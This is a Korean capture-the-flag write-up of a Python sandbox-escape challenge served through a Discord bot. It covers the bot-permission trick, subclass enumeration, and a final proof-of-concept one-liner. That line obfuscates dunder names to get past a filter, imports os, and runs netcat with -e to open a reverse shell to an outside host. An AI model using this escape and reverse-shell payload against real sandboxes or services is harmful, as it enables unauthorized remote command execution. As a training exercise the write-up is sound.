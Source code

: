 # 키워드 
- Python jailbreak


# 풀이과정(n0paew님 풀이)

- 해당 문제에서 주어진 discord에 접속하면 다음과 같이 bot이 하나 존재
![[Pasted image 20240120152424.png]]

- 문제에서 주어진 소스코드를 보면 discord 관리자만 해당 봇을 통해 동작시킬 수 있는 것을 확인할 수 있다.
![[Pasted image 20240120152507.png]]

- 따라서 discord 새로운 채널을 파서 bot을 추가하면 관리자 권한으로 해당 봇을 실행 시킬 수 있다.
![[Pasted image 20240120152529.png]]


- 해당 문제는 python jailbreak로 다음과 같이 필터랑 허용이 되어 있는 것을 볼 수 있다.
- 필터를 우회해서 문제를 풀면 되는 문제
![[Pasted image 20240120152551.png]]

- 파이썬 클래스 목록을 확인하기 위해 docker build 후, ''.__classs__.__mro__[1].__subclasses__() 를 통해 파이썬 클래스 목록을 확인
![[Pasted image 20240120152654.png]]


- 107번에 <class '_frozen_importlib.BuiltinImporter'> 통해 문제를 풀 예정
![[Pasted image 20240120152708.png]]

---
# Poc 코드
```python
getattr(getattr(getattr(present,'__cla'+'ss__'),'__ba'+'ses__')[0],'__subc'+'lasses__')()[107].load_module('os').system('nc n0paew.dev 8888 '+().__doc__[5:6]+'e '+[i for i in present.keys()][3])
```

- 위와 같이 server 열어두고 PoC를 dicord bot에다 보내면 reverse shell이 붙게되고 cat flag를 통해 flag를 얻을 수 있다.
